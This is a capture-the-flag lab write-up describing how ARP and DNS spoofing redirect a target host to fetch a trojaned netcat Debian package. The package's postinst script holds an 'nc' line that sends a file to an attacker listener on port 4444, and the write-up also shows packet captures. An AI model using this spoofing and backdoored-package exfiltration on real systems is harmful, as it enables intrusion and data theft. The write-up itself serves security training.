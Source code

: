 # Objective 9: ARP Shenanigans

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |
|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 |
|IP| 10.6.0.2 | 10.6.6.35 |



Capture of ARP spoofing success with following DNS query:

    15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`

Capture of ARP and DNS spoofing with following HTTP request:

    17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
    17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
    17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
    17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0

A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package netcat-traditional_1.10-41.1ubuntu1_amd64.deb was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as pub/jfrost/backdoor/suriv_amd64.deb.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjAwMzUwOTk0LC04NzgzOTIyMTYsNTE0Mj
A5MTU5XX0=
-->